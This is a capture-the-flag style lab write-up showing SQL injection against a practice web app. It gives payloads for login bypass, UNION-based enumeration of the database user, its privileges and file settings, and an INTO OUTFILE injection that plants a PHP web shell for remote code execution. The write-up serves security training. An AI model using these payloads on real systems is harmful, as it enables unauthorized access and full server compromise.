 # SKILLS ASSESSEMENT

## <mark style="color:red;">Step 1: Logging In</mark> <a href="#id-9c3c" id="id-9c3c"></a>

We are first met with a login page which we need to bypass. Since we do not have any credentials to work with we need to craft a payload that will result in a True statement, we can assume that the original query looks similar to this:

```
SELECT * FROM users WHERE username='username' AND password='password';
```

We are going to use the **OR** operator to try the username OR our condition which will result in a True statement no matter what, here is an example of what that would look like for the full query:

```
-- Our payload
' OR 1=1 LIMIT 1-- -'

-- Injected into the original statement
SELECT * FROM users WHERE username='' OR 1=1-- AND password='password';
```

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*rwwPWxd3-3DUsIeiUK4Kkw.png" alt="" height="208" width="700"><figcaption><p>Figure 1: Successfully logged in</p></figcaption></figure>

***

## <mark style="color:red;">Step 2: Enumeration</mark> <a href="#id-5e9a" id="id-5e9a"></a>

We see that the “Payroll Information” is retrieving data from somewhere, it’s most likely retrieving multiple columns from a table. To get to the point of creating a payload to get remote code execution, we must first figure out how many columns are retrieved by the table.

For this, we can use the **ORDER BY** statement which will try to order the amounts of columns we specify. But there is a catch, if we specify a number that is higher than the expected amount of columns returned it will fail and we can see the change in the web application.

Let’s say the table has 5 columns and we try to ORDER BY 6, we can see the change and now we know that the application retrieves 5 columns as this was the last number that worked. This is the payload we are going to test in the input field:

```
-- We increment the number of 1 by 1 for each time we try the payload
' ORDER BY 1
```

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*Cs4QVvC1ntBslwLnBedGOw.png" alt="" height="152" width="700"><figcaption><p>Figure 2: Testing the max number of columns returned by the application</p></figcaption></figure>

We tested **‘ ORDER BY 6** and we can see the change in the application, we now know the maximum amount of columns returned which is 5.

We can now use the **UNION** clause to run multiple SELECT statements in the same query. We are going to do some user enumeration just to see what MySQL user we are interacting with, and what privileges that user has.

To retrieve the user we are going to use this payload:

```
' UNION SELECT NULL,user(),NULL,NULL,NULL-- 
```

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*9MUneYz-8a11GPjzAt_Ejg.png" alt="" height="163" width="700"><figcaption><p>Figure 3: User enumeration part 1</p></figcaption></figure>

Now that we know the username which is “root”, we need to check what privileges this user has, we can do this with the following payload:

{% code overflow="wrap" fullWidth="true" %}
```
' UNION SELECT NULL,grantee,privilege_type,NULL,NULL FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- 
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:551/1*ZPNMWIQsbOybuQXXxKVnHQ.png" alt="" height="49" width="551"><figcaption><p>Figure 4: User enumeration part 2</p></figcaption></figure>

The “**FILE**” privilege is what we want to see, this indicates that the root user can both read and write files on the back-end system.

The final part of our enumeration is to figure out if the “**secure\_file\_priv**” variable is enabled. This variable is crucial to check since it tells us if we can or can’t write to the back-end system, and for remote code execution we need this variable to be set to enabled with an empty value, our payload is going to check if this variable is set to enable with an empty value:

{% code overflow="wrap" fullWidth="true" %}
```
' UNION SELECT NULL,variable_name,variable_value,NULL,NULL FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- 
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*V5R08Wh830fYFERH9EAYww.png" alt="" height="163" width="700"><figcaption><p>Figure 5: Checking the secure_file_priv variable</p></figcaption></figure>

As we can see, the secure\_file\_priv variable has no value, this means that we can write to any part of the system as long as we have permission to write to a specific path.

## <mark style="color:red;">Step 3: Remote Code Execution</mark> <a href="#a127" id="a127"></a>

Now that we have enumerated enough to know that we can write to the file system, we can begin testing this!

To test if this indeed works let’s try writing to the webroot folder where the website is being retrieved from, which is located in “**/var/www/html/dashboard/**”. We are going to use the **INTO OUTFILE** statement to write a simple text file to this folder and then trying to open it in our browser:

{% code overflow="wrap" fullWidth="true" %}
```
random' UNION SELECT "",'This is my test file',"","","" INTO OUTFILE '/var/www/html/dashboard/test.txt'-- 
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:635/1*fB_jrTpC_OtKbEd6fXXpBw.png" alt="" height="165" width="635"><figcaption><p>Figure 6: Testing file</p></figcaption></figure>

And it works! We can now craft a web shell with PHP which will let us parse any command into a URL parameter to execute remote code on the back-end system:

```
<?php system($_REQUEST[0]); ?>
```

{% code overflow="wrap" fullWidth="true" %}
```
random' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"","","" INTO OUTFILE '/var/www/html/dashboard/shell.php'--
```
{% endcode %}

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*963Vd5gvK-DLkZCdfzxo9w.png" alt="" height="165" width="700"><figcaption><p>Figure 7: Remote code execution test</p></figcaption></figure>

We can now execute any command on the back-end server through the URL, let’s grab that flag the task asks of us, it is located in the root folder:

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*DEsheZKVv2ipful8uRO8Mg.png" alt="" height="114" width="700"><figcaption><p>Figure 8: Retrieving flag</p></figcaption></figure>
